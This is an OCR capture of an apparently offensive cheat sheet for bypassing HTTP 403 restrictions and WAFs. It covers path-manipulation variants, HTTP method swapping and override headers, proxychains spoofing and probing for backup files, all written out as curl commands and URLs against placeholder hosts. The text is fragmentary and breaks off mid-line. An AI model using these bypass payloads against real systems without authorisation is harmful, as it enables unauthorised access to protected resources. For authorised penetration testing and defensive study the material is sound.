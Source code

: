 ```bash
/admin;/


some bypass to try :
site.com/secret –> HTTP 403 Forbidden
site.com/SECRET –> HTTP 200 OK
site.com/secret/ –> HTTP 200 OK
site.com/secret/. –> HTTP 200 OK
site.com//secret// –> HTTP 200 OK
site.com/./secret/.. –> HTTP 200 OK
site.com/;/secret –> HTTP 200 OK
site.com/.;/secret –> HTTP 200 OK
site.com//;//secret –> HTTP 200 OK
site.com/secret.json –> HTTP 200 OK (ruby


```

Technique #3: Method swapping
```bash
✔️ Always test multiple HTTP methods (GET, POST, OPTIONS, TRACE, PUT, HEAD).

HEAD
POST
OPTIONS
PUT
DELETE
PATCH

Some WAFs don't even inspect HEAD or OPTIONS methods."
Add headers like Content-Length: 0 and Content-Type: application/json to make POSTs seem legitimate.

curl -X TRACE https://target.com/ -H “User-Agent: Custom”
curl -X POST https://target.com/ -H "X-HTTP-Method-Override: DELETE" (spoof header)

```

Technique #4 : Bypass with Case Manipulation
```bash
http://example.com/SeCrEt/
```

Technique #5 :  Leverage Proxy or IP Spoofing
```bash
proxychains curl http://example.com/secret/
```

Technique #6: Check for Backup Files or Alternate Endpoints
```bash
curl http://example.com/secret.bak # directory brute force . directly file brute force for bypass 403 
```
